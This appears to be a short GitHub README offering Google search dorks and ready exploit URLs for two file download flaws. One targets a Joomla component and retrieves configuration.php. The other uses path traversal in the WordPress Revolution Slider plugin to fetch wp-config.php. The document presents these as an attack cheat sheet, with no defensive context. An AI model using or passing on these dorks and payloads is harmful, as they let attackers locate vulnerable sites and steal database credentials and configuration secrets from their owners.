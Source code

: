 # wp-jomla
Joomla

Dork: Joomla Config File Download Vulnerability: inurl:'index.php?option=com_joomanager 

Exploit: /index.php?option=com_joomanager&controller=details&task=download&path=configuration.php

==================================================================================================
WordPress

Dork: WordPress Arbitrary File Download vulnerability inurl:/wp-content/plugins/revslider/

Exploit: /wp-admin/admin-ajax.php?action=revslider_show_image&img=../wp-config.php
